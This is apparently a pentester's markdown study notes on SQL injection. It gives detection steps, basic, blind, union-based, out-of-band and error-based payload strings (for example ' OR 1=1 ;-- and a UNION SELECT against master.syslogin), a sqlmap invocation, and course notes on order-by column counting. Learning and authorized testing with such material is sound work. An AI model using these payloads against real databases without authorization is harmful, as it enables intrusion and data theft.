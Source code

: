 
## SQL Testing :


- __Define__ all the user inputs and fields 

- __Confirm__ the web app backend runs SQL. One way of confi rming that the application is interacting with a backend
              database is to submit the SQL wildcard character % in a given parameter

- __Submit a single quotation__ mark as the item of data you are targeting.


- Observe whether an error occurs, or whether the result differs from the original in any other way.
  

- __submit two single quotation__ marks together for testing. Sometimes one single quote is not enough to show the error.


__Basic Payloads___


    >> ' OR 1=1 ;--
    
    >> ') OR 1=1; --
    
    
- __URL encodings__ are necessary whether you are editing the parameter’s  value directly from your browser, with an intercepting 
                    proxy, or through any other means.
    
    

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Blind SQL : 

This type of SQL injection is based on booleans : True or False .


- ' and 'a'='a

- ' and 'a'='b

- ' and substring(@@version,1,1)='5   &nbsp; |  &nbsp; find the version of the db


if you get a error means that SQL vulnerability is error based, if not means blind SQl.

For Blind SQL, we need to focus on the behavior of the application and try different queries :

>>> ' and 'a'='a    |  if data displayed mean that there is SQL vulnerability 


>>> ' UNION SELECT null;-- - |  this command is used to enumerate the database in order to know the number of columns it has


>>>  ' UNION SELECT "else1";-- - | test the query with string,or intger to see the type of data in the columns

>>>> 99999 ' UNION SELECT null;-- - |  to display our entered data on the fields


>>>  99999 UNION SELECT @@version;| @@version is to know the version of the db

>>>




Automate the process of SQL blind
>> script 

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Band SQL:

- ' and 'a'='a

- ' and 'a'='b

- 9999' UNION SELECT name,222,'else1' FROM master.syslogin; --

### Error based SQL:

- 1 or db_name()=1);

- 1 or db_name(0)=1) | increase the number until the database does not show any errors

- 

 
 &nbsp; 
 &nbsp; 
 &nbsp; 
   
### SQLmap:

- sqlmap  &nbsp; -u URL  &nbsp; -p search  &nbsp; --technique=U |  &nbsp; U for Union Selection



## [PentesMonkey CheatSheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

 &nbsp; 
 &nbsp; 
 &nbsp; 
------------------------------------------------------------------------------------------------------------------------------

## [Notes from Udemy Course]

>> http://www.site.com/news/php=7' order by 1 # |  &nbsp;  use order by 1 followed by # as a comment 

__URL Encoding__:  http://www.site.com/news/php=7' order by 1 %23

order by shows how many columns in the DB

>>

